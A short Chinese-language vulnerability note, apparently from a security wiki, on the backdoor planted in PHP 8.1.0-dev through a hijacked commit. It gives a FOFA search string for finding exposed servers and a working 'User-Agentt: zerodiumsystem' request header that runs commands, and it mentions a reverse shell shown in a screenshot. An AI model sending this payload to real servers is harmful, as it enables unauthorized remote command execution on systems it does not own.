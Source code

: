 # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

> [!NOTE]
>
> PHP 8.1.0-dev

## FOFA

> [!NOTE]
>
> "PHP/8.1.0-dev"

## 漏洞复现

后门为添加请求头

```
User-Agentt: zerodiumsystem('id');
```

> [!NOTE]
>
> 是 User-Agentt 不是 User-Agent

![](http://wikioss.peiqi.tech/vuln/php-1.png)

反弹shell

![](http://wikioss.peiqi.tech/vuln/php-2.png)